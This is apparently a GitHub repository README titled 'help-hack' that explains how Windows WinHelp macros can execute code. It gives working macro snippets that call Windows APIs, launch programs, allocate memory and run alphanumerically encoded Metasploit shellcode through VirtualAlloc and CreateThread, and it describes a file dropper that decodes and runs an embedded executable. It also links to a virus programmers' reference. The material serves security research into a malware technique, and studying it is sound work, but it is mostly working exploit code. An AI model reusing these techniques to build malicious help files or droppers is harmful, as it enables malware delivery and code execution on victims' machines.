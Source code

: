help-hack
==========
Although deprecated since Windows Vista, macros from WinHelp files are still being (*widely?)* abused by malware writers. The possibility of **embedding code** is an interesting and not very well known *feature* of WinHelp files.

This repository contains sample projects to show different ways to execute custom code, dump files and work around many limitations related to the macros. Detailed description of the techniques in the referenced post and resources.

Hello World !
-------------

To execute a system library function, first register it in the .hpj project:

    [CONFIG]
    RegisterRoutine("User32.dll", "MessageBox", "iSSi")

Then call it either from the supporting .rtf file as below, or from the hpj file directly:

    Say {\uldb  Hello!}{\v !MessageBox(0, "Hello world!", "Important", 0)} \par

![enter image description here](http://cyberinc.co.uk/wp-content/uploads/2014/10/hello.png)

 

Launch Applications
-------------------

The simplest way to launch an external application is to use the **ExecFile** macro:

    ExecFile("calc.exe", "", SW_SHOW, "")               ; Alias: EF
![enter image description here](http://cyberinc.co.uk/wp-content/uploads/2014/10/calc.png)


Execute Shellcode
-----------------

The classic way is to allocate virtual memory for the shellcode (**VirtualAlloc**) and create a new thread which will start executing code from that memory address (**CreateThread**). We have two options here: either we use NULL and let VirtualAlloc chose a place to allocate our memory, or we can specify an address ourselves. Both ways work fine.

To avoid parsing problems and compiler errors, use an alphanumerically encoded shellcode:

    $ msfpayload windows/exec CMD=calc.exe R | msfencode -e x86/alpha_mixed -t raw[*] x86/alpha_mixed succeeded with size 462 (iteration=1)
    
    VYIIIIIIIIIICC...s0AA

Use a hard-coded address for the shellcode buffer:

    VirtualAlloc(0x0DC20000, 0x1000, 0x3000, 0x40);
    strncpy(0x0DC20000,VYIIIIIIIIIICCAA", 462);
    CreateThread(0, 0, 0x0DC20000, 0, 0, 0)

Address can also be chosen at runtime. To do this, we’ll use a feature of WinHelp macros that allows the result of one function to be used as an input parameter for another function:

    CreateThread(0, 0, strncpy(VirtualAlloc(0, 0x1000, 0x3000, 0x40), "YIIII...AA", 462), 0, 0, 0)

File Dropper
------------

This projects decodes a base64 encoded executable, dumps the data to a file on disk and starts its execution.


Custom Libraries
----------------

In the same way we’ve registered functions from Windows system libraries we can register and call functions from any custom library. 
This project registers and calls the SayHello function from the custom my.dll library:

    RegisterRoutine("My.dll", "SayHello", "U")
    
    SayHello()

My.Dll file contains the source code for the library and compilation instructions.

Links
-----
[Code execution from HLP files](http://cyberinc.co.uk/code-execution-from-hlp-files-2/)

[WinHelp virus programmers reference](http://vxheaven.org/29a/29a-4/29a-4.222)

[Icefog APT](http://kasperskycontenthub.com/wp-content/uploads/sites/43/vlpdfs/icefog.pdf)
